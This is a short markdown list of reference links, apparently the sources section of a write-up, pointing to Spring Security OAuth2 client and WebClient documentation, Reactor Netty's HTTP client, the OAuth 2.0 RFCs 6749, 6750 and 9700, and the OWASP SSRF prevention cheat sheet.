- [Spring Security — OAuth2 Client: Authorization Grants](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/authorization-grants.html)
- [Spring Security — OAuth2 Client Core Interfaces and Classes](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/core.html)
- [Spring Security — OAuth2 Login Servlet](https://docs.spring.io/spring-security/reference/servlet/oauth2/login/index.html)
- [Spring Security API — ServletOAuth2AuthorizedClientExchangeFilterFunction](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/web/reactive/function/client/ServletOAuth2AuthorizedClientExchangeFilterFunction.html)
- [Spring Framework — WebClient Filters](https://docs.spring.io/spring-framework/reference/web/webflux-webclient/client-filter.html)
- [Spring Framework — WebClient URI Building](https://docs.spring.io/spring-framework/reference/web/webflux-webclient/client-uri.html)
- [Reactor Netty — HTTP Client](https://projectreactor.io/docs/netty/release/reference/http-client.html)
- [RFC 6750 — OAuth 2.0 Bearer Token Usage](https://www.rfc-editor.org/rfc/rfc6750)
- [RFC 9700 — OAuth 2.0 Security Best Current Practice](https://www.rfc-editor.org/rfc/rfc9700)
- [RFC 6749 — OAuth 2.0 Authorization Framework](https://www.rfc-editor.org/rfc/rfc6749)
- [OWASP — Server Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
